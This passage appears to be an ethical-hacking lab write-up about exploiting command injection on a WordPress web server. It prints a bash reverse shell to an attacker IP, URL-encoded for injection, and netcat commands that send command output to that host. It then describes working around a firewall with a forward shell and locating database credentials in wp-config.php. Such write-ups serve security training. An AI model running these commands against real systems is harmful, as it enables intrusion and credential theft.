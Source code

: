 As it's possible to inject, we try to set a reverse shell:

`bash -c "bash -i >& /dev/tcp/10.10.14.70/4443 0>&1"`

In URL:
`bash -c "bash -i >%26 /dev/tcp/10.10.14.70/4443 0>%261"`

Creating a nc listening we don't get any shell so we can infer there are a firewall blocking port 4443

## Firewall Bypass
[[Firewall Bypass]]

If there is a firewall blocking ports, we can take advantage as we can inject code in the web site to create.
### Testing connection ports
Verifying that the web server has netcat:
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240401104444.png)
Trying to get a message from port 4443 
whoami | nc 10.10.14.70 4443 *but there is not response*
by udp:
whoami | nc 10.10.14.70 -u 4443 *not yet*
### Creating a ForwardShell

![[Forward Shell]]

In the pseudo-terminal we can use a tty:
`script /dev/null -c  bash`

Browsing path */var/www* we found a *html* folder containing wolrdpress files

In *wp-config.php* we found Database credentials: